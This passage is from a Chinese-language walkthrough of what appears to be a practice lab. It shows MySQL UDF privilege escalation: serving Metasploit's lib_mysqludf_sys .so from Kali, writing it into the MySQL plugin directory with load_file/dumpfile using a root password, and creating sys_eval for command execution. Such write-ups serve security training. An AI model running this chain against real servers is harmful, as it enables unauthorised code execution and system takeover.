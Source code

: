 <img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522163324524.png" alt="image-20220522163324524" style="zoom:67%;" />

那就换种方法，wget下载下来:kali开启http服务,靶机下载到本机然后mysql读取文件导入到plugin

> [kali中搭建简单http服务的四种方法（其中几种在其他linux中也适用）](https://blog.csdn.net/zr1213159840/article/details/123671790?spm=1001.2101.3001.6650.12&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-12-123671790-blog-107928557.pc_relevant_default&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-12-123671790-blog-107928557.pc_relevant_default&utm_relevant_index=16)

```
1.python3 -m http.server 80   /运行在哪个目录，网站的根目录就在哪
2.php -S 0.0.0.0:8080  /同上，可以使用-t指定目录。
3.ruby -run -e httpd . -p 9000
4.busybox httpd -f -p 3333 
```



msf动态链接库位置：

```
whereis metasploit-framework
cd /usr/share/metasploit-framework
cd ./data/exploits/mysql
```

![image-20220522170121354](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522170121354.png)

复制so文件到桌面，然后在桌面运行web服务，就可以在靶机上wget下载文件了

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522170631043.png" alt="image-20220522170631043" style="zoom:67%;" />

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522170621093.png" alt="image-20220522170621093" style="zoom:67%;" />

靶机shell下载：

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522170937082.png" alt="image-20220522170937082" style="zoom:67%;" />

然后进入MySQL，利用into file写入so文件

```
mysql -uroot -pR@v3nSecurity

select load_file('/var/www/html/lib_mysqludf_sys_64.so') into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';   //outfile会有特殊的转换，而dumpfile是原数据导出
```

![image-20220522171713377](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/image-20220522171713377.png)



##### 绑定函数到动态链接库

```
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys_64.so';
```
